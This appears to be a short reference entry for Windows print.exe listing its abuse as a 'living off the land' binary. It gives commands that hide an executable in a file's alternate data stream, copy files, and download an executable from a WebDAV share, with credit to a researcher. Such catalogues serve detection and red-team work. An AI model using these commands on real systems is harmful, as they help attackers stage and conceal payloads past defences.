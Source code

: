 ## Print.exe
* Functions: Download, Copy, Add ADS
```

print /D:C:\ADS\File.txt:file.exe C:\ADS\File.exe
Copy file.exe into the Alternate Data Stream (ADS) of file.txt.

print /D:C:\ADS\CopyOfFile.exe C:\ADS\FileToCopy.exe
Copy FileToCopy.exe to the target C:\ADS\CopyOfFile.exe

print /D:C:\OutFolder\outfile.exe \\WebDavServer\Folder\File.exe
Copy File.exe from a network share to the target c:\OutFolder\outfile.exe.
```
   
* Resources:   
  * https://twitter.com/Oddvarmoe/status/985518877076541440
  * https://www.youtube.com/watch?v=nPBcSP8M7KE&lc=z22fg1cbdkabdf3x404t1aokgwd2zxasf2j3rbozrswnrk0h00410
   
* Full path:   
  * C:\Windows\System32\print.exe
  * C:\Windows\SysWOW64\print.exe
   
* Notes: Thanks to Oddvar Moe - @oddvarmoe  
   
